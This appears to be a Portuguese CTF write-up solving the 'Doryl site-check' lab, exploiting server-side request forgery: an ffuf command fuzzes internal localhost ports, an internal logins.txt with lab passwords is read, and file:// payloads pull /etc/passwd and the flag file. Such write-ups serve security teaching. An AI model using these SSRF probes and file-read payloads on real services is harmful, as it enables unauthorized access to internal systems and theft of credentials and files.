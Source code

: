 ```yaml
---
id: index
aliases: []
tags:
  - CTF
  - Hack the Box
authors:
  - edson
date: "2024-09-05"
draft: false
showAuthor: false
showAuthorsBadges: false
summary: Resolução do desafio Doryl site-check
title: Write Up - Doryl Site-Check
---
```


# CTF Doryl

## Como acessar o desafio

- Acesse o <https://github.com/fguisso/doryl-site-check>, e inicie o desafio na
  sua máquina. No caso foi entregue a versão na branch `Internal`.

## Descrição

O Desafio tem como objetivos:

- Encontrar um arquivo com informações muito sensiveis.
- Encontrar uma flag no formato secDevOps{.....}

### Como Funciona a Aplicação

- A aplicação possui apenas um campo de entrada, utilizado para escanear a url
  inserida:

![aplicacao](https://i.imgur.com/ilyYRAt.png)
-Note que ele retorna a resposta completa da url que o usuário inseriu.

![print_resposta_aplicacao](https://i.imgur.com/g71XYNY.png)
Então parece que a aplicação internamente envia requisições para a url. Nesse
princípio é possível inserir uma URL para tentar acessar servidores internos,
como o `http://localhost`.

- Utilize as portas web mais utilizadas em um bruteforce, para saber se existe
  alguma porta interna aberta:
  `80,443,8009,8180,81,300,591,593,832,981,1010,1311,2082,2087,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5108,5800,6543,7000,7396,7474,8000,8001,8008,8014,8042,8069,8080,8081,8088,8090,8091,8118,8123,8172,8222,8243,8280,8281,8333,8443,8500,8834,8880,8888,8983,9000,9043,9060,9080,9090,9091,9200,9443,9800,9981,12443,16080,18091,18092,20720,28017`.

- Utilize o ffuf para automatizar a buscar de portas o input é enviado no
  parâmetro `target` para o servidor, e note que filtrei as respostas que possuem
  3246 palavras que considerei como resposta padrão do site.

`ffuf -u http://0.0.0.0:8080/check -X POST -d "target=http%3A%2F%2Flocalhost%3AFUZZ" -w ports.txt -H 'Content-Type: application/x-www-form-urlencoded' -fw 3246`

![print_ffuf_aplicacao](https://i.imgur.com/1eJAAko.png)

- Note que ele encontrou apenas 2 portas abertas a 8080, que fornece o site
  principal, e a 3000, que fornece uma aplicação interna.
- Analise a resposta completa, quando você insere <http://localhost:3000>,

```http
GET http://localhost:3000
Content-Length: 93
Content-Type: text/html; charset=utf-8
Date: Thu, 05 Sep 2024 05:46:30 GMT
Last-Modified: Thu, 05 Sep 2024 01:48:03 GMT
<pre>
<a href="employers.html">employers.html</a>
<a href="logins.txt">logins.txt</a>
</pre>
```

- Note que ele possui um link para `logins.txt`, ao enviar a url
  <http://localhost:3000/logins.txt> no input, ele irá retornar informações muito
  sensíveis.

```http
GET http://localhost:3000/logins.txt
Accept-Ranges: bytes
Content-Length: 233
Content-Type: text/plain; charset=utf-8
Date: Thu, 05 Sep 2024 05:50:52 GMT
Last-Modified: Thu, 05 Sep 2024 01:48:03 GMT
// Super sensitive information

// WiFi
id: Doryl
password: 2022doryl@*

// Guest WiFi
id: Doryl-Guest
password: dorylguest2022

// Intranet
login: admin
password: Adminqwert2022

// Ginpass
login: dorylAdmin
password: ginAndOrange
```

#### Primeira Etapa Concluída

### Encontre a FLAG

- Observe que o servidor envia uma requisição interna para a URL inserida,
  utilizando o protocolo `http`. Com base nisso, podemos testar outros esquemas
  comuns para acessar arquivos em servidores internos, como o esquema `file`.

- Vamos tentar recuperar um arquivo comum em servidores Linux, o `/etc/passwd`,
  para verificar se ele retorna o conteúdo. Insira no campo de entrada a URL
  `file:///etc/passwd`.

```http
GET file:///etc/passwd

root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
```

- Essa resposta, é o conteúdo do `/etc/passwd` , então podemos tentar recuperar
  a flag que está armazenada no sistema. É comum em ctfs a flag ficar na mesma
  pasta do desafio e com o nome `flag.txt` , partindo deste princípio podemos
  inserir `file://./flag.txt` .

```http
GET file://./flag.txt

SecDevOps{SSRF_3_UM_PERIGOnvim .!}
```

Todos Objetivos foram concluidos ( ;

|Criador do Desafio: <https://github.com/fguisso>
